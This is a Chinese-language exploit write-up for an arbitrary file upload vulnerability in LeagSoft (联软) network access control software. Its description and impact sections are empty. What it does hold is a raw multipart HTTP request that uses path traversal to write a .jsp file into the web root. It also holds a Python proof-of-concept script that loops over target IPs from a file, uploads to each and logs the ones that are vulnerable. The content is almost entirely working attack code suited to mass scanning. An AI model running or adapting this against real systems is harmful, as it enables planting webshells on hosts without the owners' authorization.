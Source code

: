 联软准入 任意文件上传漏洞
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    POST /uai/download/uploadfileToPath.htm HTTP/1.1
    Host: www.0-sec.org:8099
    User-Agent: python-requests/2.22.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 308
    Content-Type: multipart/form-data; boundary=ea8ef2c3b016cd152a651d2799ef2c5c

    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="input_localfile"; filename="111.jsp"
    Content-Type: text/plain

    aaaaa
    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="uploadpath";

    ../webapps/notifymsg/devreport/
    --ea8ef2c3b016cd152a651d2799ef2c5c--

![1.png](./.resource/联软准入任意文件上传漏洞/media/rId24.png)

上传路径：

`https://www.0-sec.org/notifymsg/devreport/111.jsp`

![2.png](./.resource/联软准入任意文件上传漏洞/media/rId25.png)

### poc

> poc.py

    import requests


    def main(line):
        proxies = {'http': 'http://localhost:8080'}
        # url = 'https://www.0-sec.org/uai/download/uploadfileToPath.htm'
        url = line + '/uai/download/uploadfileToPath.htm'
        url_2 = line.strip() + '/notifymsg/devreport/{}'
        filename = '111.txt'
        files = {
            'input_localfile': (filename, open(filename), 'text/plain'),
        }
        content = {
            'uploadpath': '../webapps/notifymsg/devreport/'
        }
        res = requests.post(url, files=files, proxies=proxies, data=content, verify=False)
        # print(res.text)
        res_2 = requests.get(url_2.format(filename), verify=False)
        if 'xxx' in res_2.text:
            print('ok....')
            with open('ok.txt', mode='a') as f:
                f.write(url_2.format(filename) + '\n')
                print('写入成功...')


    if __name__ == '__main__':
        with open('ip.txt', mode='r') as f:
            for line in f.readlines():
                if line == '\n':
                    pass
                main(line)

参考链接
--------

> https://blog.csdn.net/m0\_48520508/article/details/108790281
